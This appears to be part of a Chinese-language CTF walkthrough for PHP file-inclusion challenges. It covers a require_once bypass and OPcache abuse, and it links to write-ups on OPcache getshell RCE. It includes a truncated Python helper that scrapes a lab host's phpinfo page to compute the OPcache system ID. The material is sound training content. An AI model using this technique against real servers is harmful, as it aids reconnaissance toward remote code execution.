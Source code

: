 根据题目信息 下载exp

运行拿到flag

![image-20240806112106652](./assets/level17.png)

### Level 18:require/include_once 缺陷：绕过以重复包含文件
Modified From: [WMCTF2020]Make PHP Great Again.

参考WP可以直接看：[php源码分析 require_once 绕过不能重复包含文件的限制](https://www.anquanke.com/post/id/213235)

### Level 19:opcache缓存
Modified From: [湖湘杯2020] 题目名字不重要反正题挺简单的

OPcache会在特定的目录缓存编译后的PHP文件，以达到在你下次访问的时候直接调用缓存中的字节码以提高响应速度 —— 利用这一特性，如果我们复写缓存文件为恶意代码，那么下次调用的时候就会执行恶意代码。 

当然在文件包含的这个关卡，我们只是简要的利用他会生成 filename.type.bin 这一特性去读取文件。 

具体的细节师傅们可以自行了解，你也可以通过修改该靶场的文件来搭建复写类型的RCE漏洞。 

[F12 - opcache导致的RCE复现 ](https://www.cnblogs.com/F12-blog/p/18001985) 

[笑花大王 - php7的Opcache getshell](https://www.cnblogs.com/xhds/p/13239331.html)

计算对应ID的脚本以附在靶场中:exp.py

```python
import sys
import re
import requests
import hashlib
from packaging import version  # pip install packaging

url = 'http://core.hello-ctf.com:32882/'
phpinfo_url = url + '/?file=phpinfo'

text = requests.get(phpinfo_url).text
print(text)
php_version = re.search(r'<tr><td class="e">PHP Version </td><td class="v">(.*) </td></tr>', text)
if php_version is None:
    php_version = re.search(r'<h1 class="p">PHP Version (.*)', text)
if php_version is None:
    print("No PHP version found, is this a phpinfo file?")
    sys.exit(0)
php_version = php_version.group(1)
php_greater_74 = (version.parse("7.4.0") < version.parse(php_version.split("-")[0]))
zend_extension_id = re.search(r'<tr><td class="e">Zend Extension Build </td><td class="v">(.*) </td></tr>', text)
if zend_extension_id is None:
    print("No Zend Extension Build found.")
    sys.exit(0)
zend_extension_id = zend_extension_id.group(1)
architecture = re.search(r'<tr><td class="e">System </td><td class="v">(.*) </td></tr>', text)
if architecture is None:
    print("No System info found.")
    sys.exit(0)
architecture = architecture.group(1).split()[-1]
if architecture == "x86_64":
```